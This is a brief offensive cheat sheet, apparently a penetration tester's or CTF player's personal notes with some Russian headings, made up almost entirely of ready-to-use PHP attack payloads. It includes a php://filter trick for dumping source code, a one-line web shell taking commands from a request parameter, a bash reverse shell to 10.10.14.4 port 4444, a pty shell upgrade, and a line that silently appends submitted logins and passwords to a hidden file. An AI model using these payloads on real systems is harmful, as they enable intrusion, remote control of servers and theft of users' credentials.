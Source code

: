 # PHP

# PHP filter

php://filter/convert.base64-encode/resource=config

# CMD
    <?php system($_REQUEST['pwn']); ?>

  inddex.php?pwn=ls

# ReverseShell

<?php system ('bash -c "bash -i >& /dev/tcp/10.10.14.4/4444 0>&1"'); ?>

python -c 'import pty;pty.spawn('/bin/bash')'
# Запись в файл переменных

file_put_contents(".max", $_POST['log'] . ":" . $_POST['pwd'] . "\n" , FILE_APPEND);

#PHP server

php -S 127.0.0.1:80

Передача параметров - $1
